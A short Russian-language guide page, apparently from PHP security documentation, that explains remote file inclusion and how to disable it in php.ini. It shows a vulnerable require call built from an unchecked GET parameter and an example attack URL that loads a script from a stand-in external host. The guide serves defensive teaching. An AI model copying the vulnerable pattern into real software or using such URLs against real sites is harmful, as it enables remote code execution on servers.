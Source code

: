 # Remote file inclusion

Remote file inclusion (RFI) - уязвимость, при которой злоумышленник может подключить удаленный скрипт.


### Пример

```php
$page = $_GET['page'] ?? 'home'

require $page . '.php';
```
В приведенном примере параметр `page` может указывать на внешний скрипт, например,
`http://yourdomain.tld/index.php?page=http://example.com/evilscript`

### Защита

Отключите следующие директивы в php.ini:

```ini
; Disable including remote files
allow_url_fopen = off
; Disable opening remote files for include(), require(), include_once() and require_once() functions.
; If above allow_url_fopen is disabled, allow_url_include is also disabled.
allow_url_include = off
```